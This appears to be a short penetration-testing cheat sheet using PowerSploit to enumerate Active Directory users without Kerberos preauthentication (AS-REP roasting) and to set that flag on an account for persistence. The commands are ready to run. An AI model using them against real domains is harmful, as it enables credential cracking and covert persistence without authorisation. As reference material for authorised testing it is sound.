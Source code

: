 # PowerSploit

## 01 - Enumerate ASREPRoast Users

`PS C:\> Get-DomainUser -PreauthNotRequired -Verbose`

## 02 - Persistence

`PS C:\> Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose`

---
## References

- [Hacktricks: Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)